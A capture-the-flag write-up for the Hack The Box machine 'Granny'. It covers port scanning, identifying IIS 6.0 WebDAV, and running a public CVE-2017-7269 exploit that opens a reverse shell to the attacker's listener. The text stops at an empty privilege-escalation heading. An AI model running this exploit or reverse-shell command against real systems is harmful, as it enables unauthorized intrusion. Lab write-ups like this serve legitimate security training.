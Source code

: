 # Box: Granny
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.56.178 -T4  -v -p- ```
```
# Nmap 7.93 scan initiated Thu Sep 21 23:02:51 2023 as: nmap -A -T4 -v -p- -oN granny 10.129.56.178
Nmap scan report for 10.129.56.178
Host is up (0.16s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Thu, 21 Sep 2023 22:08:49 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows XP SP2 or SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   177.17 ms 10.10.14.1
2   177.19 ms 10.129.56.178

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 21 23:08:58 2023 -- 1 IP address (1 host up) scanned in 367.26 seconds
```
From our scan we have just 1 open port. This means our enumeration today will be focused on that port.


# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c4f47ac1-feea-4966-a454-ede3966703b7)

There was nothing interesting in the page source. 

Going back to the nmap scan I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fc2f91f1-71df-4da5-b830-9e5274c94f20)

It seems that version of ```Microsoft IIS httpd``` has an exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9dd310ad-45ad-4604-9992-4f5561b5a543)

Yeah I was right. Now that we found our attack vector, lets exploit😎



# Exploitation

During the search for exploits I found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

You can just clone it, so you'll be able to use  it

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny]
└─$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny]
└─$ cd iis6-exploit-2017-CVE-2017-7269 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny/iis6-exploit-2017-CVE-2017-7269]
└─$ ls -la         
total 32
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  ..
drwxr-xr-x 8 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .git
-rw-r--r-- 1 bl4ck4non bl4ck4non 12313 Sep 20 17:15 'iis6 reverse shell'
-rw-r--r-- 1 bl4ck4non bl4ck4non    66 Sep 20 17:15  README.md
```
Lets try to run the exploit

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Granny/iis6-exploit-2017-CVE-2017-7269]
└─$ python2 iis6\ reverse\ shell             
usage:iis6webdav.py targetip targetport reverseip reverseport
```
So, we have to specify the targetip and targetport, also our tun0 ip address and the port we plan on listening on

Lets start out by setting up our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8f60c83d-2047-433b-8acc-59c5258cf23e)

Now, lets run the exploit

command:```python2 iis6\ reverse\ shell 10.129.127.13 80 10.10.14.142 1234```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0f073bc7-316c-4f62-820c-d68f28347e0c)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ebd2bbd1-f8e2-4d49-b4e7-09083381a065)

We got a shell as ```nt authority\network service```. Lets go ahead and escalate our privileges



# Privilege Escalation












